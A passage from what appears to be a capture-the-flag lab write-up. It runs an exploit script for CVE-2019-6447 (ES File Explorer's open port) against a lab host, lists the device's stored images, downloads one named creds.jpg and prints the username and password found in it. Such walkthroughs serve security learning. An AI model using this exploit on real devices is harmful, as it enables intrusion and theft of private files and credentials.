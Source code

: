 ```bash
└──╼ $python3 exploit2.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

```

- Bingo here! we have a creds.jpg image. Let's download it  

![get file](../.res/2023-02-04-13-19-07.png)

- `mv out.dat creds.jpg` we rename the outfile `xdg-open creds.jpg` we open it  

![creds](../.res/2023-02-04-13-22-44.png)  

And we get a password along with a user name. `kristi:Kr1sT!5h@Rp3xPl0r3!`
